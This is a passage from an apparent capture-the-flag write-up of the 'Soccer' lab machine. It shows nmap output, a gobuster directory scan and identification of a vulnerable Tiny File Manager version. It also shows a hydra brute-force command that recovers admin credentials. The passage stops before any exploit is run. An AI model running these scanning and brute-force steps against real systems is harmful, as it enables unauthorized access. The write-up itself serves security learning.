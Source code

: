     SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
    SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
    SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
    SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
    SF:\nDate:\x20Tue,\x2002\x20May\x202023\x2017:47:26\x20GMT\r\nConnection:\
    SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
    SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
    SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
    SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
    SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
    SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Tue,\x
    SF:2002\x20May\x202023\x2017:47:26\x20GMT\r\nConnection:\x20close\r\n\r\n<
    SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
    SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
    SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
    SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
    SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
    SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
    SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
    SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
    SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- `gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
    ```
    /tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
    ```

- I open the site and find the software version:
    ```html
    <div class="footer text-center">
        &mdash;&mdash; &copy;
        <a href="https://tinyfilemanager.github.io/" target="_blank" class="text-muted" data-version="2.4.3">CCP Programmers</a> &mdash;&mdash;
    </div>
    ```

    This version is vulnerable to: [CVE-2021-45010](https://github.com/BKreisel/CVE-2021-45010)

    To exploit the vulnerability it is necessary to have a valid account, I have no credentials so I do a bruteforce attack:<br>
    `hydra -l admin -P /usr/share/wordlists/rockyou.txt soccer.htb http-post-form "/tiny/tinyfilemanager.php:fm_usr=admin&fm_pwd=^PASS^:Login failed. Invalid username or password"`

    Unfortunately I can't find anything but if I change wordlist in `/usr/share/wordlists/seclist/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt` I can find the password:
    ```
    [80][http-post-form] host: soccer.htb   login: admin   password: admin@123
    ```

    Opening the site [http://soccer.htb/tiny/tinyfilemanager.php?p=&upload](http://soccer.htb/tiny/tinyfilemanager.php?p=&upload) I see that:
    ```
    Destination Folder: /var/www/html/ 
    ```
